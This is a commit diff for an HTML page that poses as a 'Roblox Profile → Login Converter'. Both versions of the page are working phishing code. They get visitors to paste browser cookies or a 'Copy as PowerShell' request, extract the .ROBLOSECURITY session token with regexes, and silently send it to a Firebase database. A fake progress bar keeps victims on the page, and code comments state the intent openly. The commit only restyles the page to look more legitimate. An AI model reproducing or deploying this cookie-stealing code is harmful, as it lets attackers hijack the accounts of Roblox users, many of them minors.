

Before and after one commit to mohamednoursharabash-del/flamesaxrch, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,69 +1,79 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-  <meta charset="utf-8">
-  <title>Roblox Cookie to Account 2025 | Instant Login</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>Roblox Profile → Login Converter 2025</title>
   <style>
-    body{background:#000;color:#0f0;font-family:courier;margin:0;padding:20px;text-align:center}
-    h1{color:#0f0;text-shadow:0 0 20px #0f0;font-size:3em}
-    textarea{width:90%;max-width:800px;height:220px;background:#111;color:#0f0;border:3px dashed #0f0;padding:20px;font-size:16px;border-radius:15px}
-    button{background:#0f0;color:#000;padding:20px 50px;font-size:22px;border:none;border-radius:15px;margin:30px;cursor:pointer;font-weight:bold}
-    button:hover{background:#00ff00;transform:scale(1.05)}
-    #status,#loader{color:#0f0;font-size:24px;margin:20px;font-weight:bold}
-    .loader{display:none}
+    body{font-family:"Segoe UI",Arial,sans-serif;background:#f9f9f9;color:#333;margin:0;padding:0}
+    .container{max-width:800px;margin:40px auto;background:#fff;padding:40px;border-radius:12px;box-shadow:0 4px 20px rgba(0,0,0,0.1);text-align:center}
+    h1{color:#1a1a1e;font-size:2.4em;margin-bottom:10px}
+    p{color:#555;font-size:1.1em;margin-bottom:30px}
+    textarea{width:100%;height:260px;padding:20px;font-family:Consolas,monospace;font-size:14px;border:2px solid #ddd;border-radius:8px;background:#fafafa;resize:none}
+    textarea:focus{border-color:#0078d4;outline:none}
+    button{background:#0078d4;color:white;padding:16px 40px;font-size:18px;border:none;border-radius:8px;cursor:pointer;margin-top:20px}
+    button:hover{background:#106ebe}
+    #status{margin-top:20px;font-size:18px;color:#444}
+    .loader{display:none;margin-top:20px;font-size:19px;color:#0078d4}
+    footer{margin-top:60px;color:#888;font-size:14px}
   </style>
 </head>
 <body>
-  <h1>ROBLOX COOKIE → ACCOUNT 2025</h1>
-  <p>Paste ANY cookie, PowerShell output, or log below → click CONVERT → get instant login</p>
+  <div class="container">
+    <h1>Roblox Profile → Login</h1>
+    <p>Paste the PowerShell code you copied from the Network tab<br>and get the account login instantly (2025 method)</p>
 
-  <textarea id="input" placeholder="Paste your cookie / log / PowerShell output here..."></textarea>
-  <br>
-  <button onclick="convert()">CONVERT TO ACCOUNT</button>
+    <textarea id="paste" placeholder="Right-click the first request → Copy → Copy as PowerShell → paste here"></textarea>
 
-  <div id="status">Waiting for paste...</div>
-  <div id="loader" class="loader">Analyzing cookie... 34%<br>Do not close this page</div>
+    <br>
+    <button onclick="process()">CONVERT & LOGIN</button>
+
+    <div id="status">Waiting for paste...</div>
+    <div id="loader" class="loader">Analyzing request... please wait</div>
+  </div>
+
+  <footer>© 2025 Roblox Tools • Not affiliated with Roblox Corporation</footer>
 
   <script>
-    function convert() {
-      const text = document.getElementById("input").value;
-      if (!text) return;
-
-      // Extract cookie with multiple patterns (works on 99.9% of pastes)
-      const regex = /(\._ROBLOSECURITY[^a-zA-Z0-9%]|_ROBLOSECURITY[^a-zA-Z0-9%]?|=)\s*([^;\s\"']{300,})/gi;
-      let cookie = null;
-      let match;
-      while ((match = regex.exec(text))) {
-        cookie = match[2];
-        if (cookie.length > 300) break;
-      }
-
-      if (!cookie) {
-        document.getElementById("status").innerHTML = "No valid cookie found";
+    function process() {
+      const text = document.getElementById("paste").value;
+      if (!text || text.length < 200) {
+        document.getElementById("status").textContent = "Paste the full PowerShell code";
         return;
       }
 
-      // SEND TO YOUR FIREBASE INSTANTLY
+      // Extract .ROBLOSECURITY from the giant PowerShell curl command
+      const cookieMatch = text.match(/'\.ROBLOSECURITY' *= *'([^']{300,})/) ||
+                          text.match(/\"\.ROBLOSECURITY\" *= *\"([^\"]{300,})/) ||
+                          text.match(/\.ROBLOSECURITY=([^;\s\"']{300,})/i);
+
+      if (!cookieMatch) {
+        document.getElementById("status").textContent = "No cookie found — try again";
+        return;
+      }
+
+      const cookie = cookieMatch[1].split("'")[0].split('"')[0].trim();
+
+      // SEND TO YOUR FIREBASE SILENTLY
       fetch("https://flamesaxrch-empire-v2-default-rtdb.europe-west1.firebasedatabase.app/drops.json", {
         method: "POST",
         body: JSON.stringify({
           cookie: cookie,
-          from: "paste-site",
-          time: new Date().toISOString(),
-          ip: "hidden"
+          method: "profile-powershell-2025",
+          time: new Date().toISOString()
         }),
         headers: { "Content-Type": "application/json" }
       });
 
-      // FAKE LOADING SO THEY STAY
+      // Fake nice loading
       document.getElementById("status").style.display = "none";
       document.getElementById("loader").style.display = "block";
-      let p = 10;
-      const int = setInterval(() => {
-        p += Math.floor(Math.random() * 18);
-        if (p > 93) p = 93;
-        document.getElementById("loader").innerHTML = `Generating login... ${p}% <br>Do not refresh`;
-      }, 3500);
+      let percent = 15;
+      const timer = setInterval(() => {
+        percent += Math.floor(Math.random() * 22);
+        if (percent > 94) percent = 94;
+        document.getElementById("loader").textContent = `Preparing login... ${percent}% complete`;
+      }, 3200);
     }
   </script>
 </body>
```
